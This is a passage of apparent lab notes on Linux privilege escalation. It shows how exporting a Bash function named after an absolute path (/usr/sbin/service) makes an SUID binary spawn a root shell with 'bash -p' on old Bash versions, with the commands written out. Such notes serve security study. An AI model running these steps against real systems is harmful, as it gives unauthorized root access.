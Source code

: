 The /usr/local/bin/suid-env2 executable is identical to /usr/local/bin/suid-env except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

**Verify this with strings:**
```python
strings /usr/local/bin/suid-env2
```
In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

**Verify the version of Bash installed on the Debian VM is less than 4.2-048:**
```python
/bin/bash --version
```

**Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:**
```python
function /usr/sbin/service { /bin/bash -p; }   
export -f /usr/sbin/service
```

**Run the suid-env2 executable to gain a root shell:**
```python
/usr/local/bin/suid-env2
```

## Practically - 
### In target machine - 
![[linux_privesc21.png]]

